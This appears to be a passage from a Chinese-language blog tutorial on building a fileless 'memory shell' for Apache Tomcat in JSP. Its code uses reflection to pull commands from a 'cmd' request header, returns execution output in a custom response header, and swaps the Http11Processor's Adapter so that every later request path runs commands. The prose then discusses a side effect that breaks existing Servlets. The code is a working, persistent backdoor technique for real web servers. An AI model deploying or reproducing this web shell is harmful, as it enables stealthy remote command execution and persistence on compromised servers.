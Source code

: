 ```jsp
            Object[] headers = (Object[]) getField(getField(getField(http11Processor,"request"),"headers"),"headers");
            for (Object mimeHeaderField : headers){
                try {
                    if (getField(mimeHeaderField,"nameB").toString().equals("cmd")){
                        cmd = getField(mimeHeaderField,"valueB").toString();
                        return cmd;
                    }
                }catch (Exception e){
                    continue;
                }
            }
            return cmd;
        }

//        获取命令执行回显 Execute-result-by-xieyaowei
        public void getResponse(byte[] res) throws UnsupportedEncodingException {
            Http11Processor http11Processor = getHttp11Processor();
            // 获取到 response 对象
            Response response = (Response) getField(http11Processor,"response");
            // 用 addHeader 将执行的结果写入response中
            response.addHeader("Execute-result-by-xieyaowei", new String(res, "UTF-8"));
        }
    }
%>

<%
//    新建一个 Adapter 对象的时候需要传入一个 Connector 对象，这里新建 Connector 对象传入的是 HTTP/1.1 协议
    Adapter myadapter = new myAdapter(new Connector("HTTP/1.1"));
//    拿到我们想要的 Http11Processor 对象
    Http11Processor http11Processor = getHttp11Processor();
//    set 一个自定义的 Adapter，下一次访问即可命令执行
    http11Processor.setAdapter(myadapter);
%>

```

在使用 JSP 的时候发现，没有在 Servlet 使用的不稳定缺点。

- 注入后访问任何路径都可以命令执行并且成功回显；
- 不需要重复注入。

# 发现问题

## 问题1

但是后面发现这个内存马注入之后会导致所有的 Servlet 都失效，可能是因为 Adapter 被我们更改了。

那现在的思路就是拿到之前的 Adapter ，找到它初始化的地方，在我们自定义的 Adapter 做同样的初始化步骤。或者是之直接把所有的原来的 Adapter 的所有属性和方法都写一遍进去。

一个正常的 Adapter 原来里面有一个 Connector ，里面有一些对象。
